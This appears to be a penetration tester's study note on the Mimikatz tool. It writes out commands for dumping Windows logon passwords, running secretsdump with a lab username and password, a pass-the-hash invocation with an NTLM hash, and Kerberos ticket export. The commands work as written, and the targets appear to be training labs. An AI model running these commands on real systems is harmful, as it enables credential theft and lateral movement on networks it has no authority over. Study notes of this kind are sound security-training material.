 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
## Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

For Linux systems see a Python implementation: [pypykatz](https://github.com/skelsec/pypykatz)
## Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

## Usage 

```cmd-session
mimikatz.exe
```
### Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

### Dump Passwords

```cmd
privilege::debug
sekurlsa::logonpasswords
```
### Pass the Hash

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

```cmd-session
 mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

### Export Tickets

```cmd-session
mimikatz.exe
```

```cmd-session
sekurlsa::tickets /export
```

> [!NOTE]
> At the time of writing, using Mimikatz version 2.2.0 20220919, if we run `sekurlsa::ekeys` it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets `sekurlsa::tickets /export` do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use [[Rubeus]] to export tickets in base64 format.

